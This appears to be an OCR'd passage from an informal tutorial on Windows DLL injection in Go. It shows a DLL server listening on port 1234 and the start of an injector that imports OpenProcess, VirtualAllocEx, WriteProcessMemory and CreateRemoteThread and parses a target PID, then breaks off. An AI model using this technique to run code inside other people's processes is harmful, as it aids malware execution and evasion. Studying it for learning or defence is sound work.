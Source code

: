 ##  So, it looks like our gob server DLL works, our Windows box is now listening for a client on port 1234...  

**you probably want to kill that process...**

**So, how do we call the exported dll function GobServer now that we aren't just using the default MainDll exported function, how would we even call the MainDll function if it existed???**  

**Freds, I mead threads... and some memory address calculation trick fuckery.**  

- example-4.go  

```go
package main

import (
	"fmt"
	"os"
	"strconv"
	"syscall"
	"unsafe"
)

const (
	FALSE                     = 0
	PROCESS_QUERY_INFORMATION = 0x0400
	PROCESS_VM_WRITE          = 0x0020
	PROCESS_VM_OPERATION      = 0x0008
	PROCESS_CREATE_THREAD     = 0x0002
	PAGE_EXECUTE_READWRITE    = 0x40
	PAGE_READ_WRITE           = 0x00000004
	MEM_RESERVE               = 0x00002000
	MEM_COMMIT                = 0x00001000
	MEM_RELEASE               = 0x8000
	PROCESS_ALL_ACCESS        = PROCESS_QUERY_INFORMATION | PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD
)

var (
	targetDll          = "C:\\\\gob-server.dll"
	dllLength          = len(targetDll)
	kernel32           = syscall.NewLazyDLL("kernel32.dll")
	loadLibraryA       = kernel32.NewProc("LoadLibraryA")
	openProcess        = kernel32.NewProc("OpenProcess")
	writeProcessMemory = kernel32.NewProc("WriteProcessMemory")
	createRemoteThread = kernel32.NewProc("CreateRemoteThread")
	closeHandle        = kernel32.NewProc("CloseHandle")
	virtualAllocEx     = kernel32.NewProc("VirtualAllocEx")
	virtualFreeEx      = kernel32.NewProc("VirtualFreeEx")
	getModuleHandle    = kernel32.NewProc("GetModuleHandle")
)

func main() {
	// parse process ID
	if len(os.Args) < 2 {
		fmt.Println("PID not found :( exiting...")
		return
	}
	pid, err := strconv.Atoi(os.Args[1])
	if err != nil {
		fmt.Println("Invalid PID:", os.Args[1])
		return
	}
	fmt.Printf("PID: %#x\n", pid)

```